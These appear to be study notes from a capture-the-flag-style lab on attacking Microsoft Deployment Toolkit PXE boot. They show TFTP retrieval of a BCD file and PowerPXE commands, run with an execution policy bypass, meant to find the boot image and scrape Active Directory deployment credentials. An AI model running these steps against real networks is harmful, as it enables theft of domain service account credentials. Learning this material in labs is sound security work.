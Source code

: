 MDT is usually integrated with System Center Configuration Manager (SCCM), the MDT can do the initial configuration and ensure the build is updated the first time, while SCCM manages all updates of Microsoft applications, services and operating systems.

SCCM allows the IT to review updates to all software installed across the estate, it also gives the ability to test the patches in a sandbox environment before deploying them to all the machines in the domain.

Preboot Execution Environment (PXE) boot is one of the many ways to configure MDT.

##### PXE boot

PXE boot allows new devices to download the OS directly over the network, MDT can be used to create, manage and host PXE boot images, PXE boot is usually integrated with DHCP so the host is allowed to request the PXE boot image when he gets an IP lease:

![[8117a18103e98ee2ccda91fc87c63606.png]]

The client will than use TFTP connection to download the PXE boot image, there are 2 purposes for exploiting this:

- Inject a privilege escalation vector, to gain something like administrative access when the PXE boot as been completed
- Perform password scraping attacks to recover AD credentials used during the install.

We will focus on the second and attempt to recover deployment service account associated with the MTD during installation, we might also retrieve other AD accounts which are use for unattended installation of applications and services.

##### PXE Boot Image Retrieval

For this attack you will need from DHCP the IP of the MDT server and the names of BCD files which store relevant information regarding PXE boots for different type of architectures, usually you would use TFTP to request each of the BCD files and enumerate the configuration for all of them, we will skip those steps here here.

Connect with SSH

Ensure all users of the network can use SSH:
`cd Documents`
`mkdir <your username>`
`copy C:\powerpxe <yourusername>\`
`cd <your username>`

use TFTP to download the BCD file to read the configuration of the MDT server, TFTP can't list files but the BCD files are always in the TMP directory:
`tftp -i <domain ip address> GET "\Tmp\x64{39...28}.bcd" conf.bcd`

Current file name: x64{5D89D6D5-B208-4E2B-95E0-5871B101A752}.bcd

use [powerpxe](https://github.com/wavestone-cdt/powerpxe) to read the contents of the BCD file, better to take a manual approach:

```
C:\Users\THM\Documents\Am0> powershell -executionpolicy bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.   

PS C:\Users\THM\Documents\am0> Import-Module .\PowerPXE.ps1
PS C:\Users\THM\Documents\am0> $BCDFile = "conf.bcd"
PS C:\Users\THM\Documents\am0> Get-WimFile -bcdFile $BCDFile
>> Parse the BCD file: conf.bcd
>>>> Identify wim file : <PXE Boot Image Location>
<PXE Boot Image Location>
```
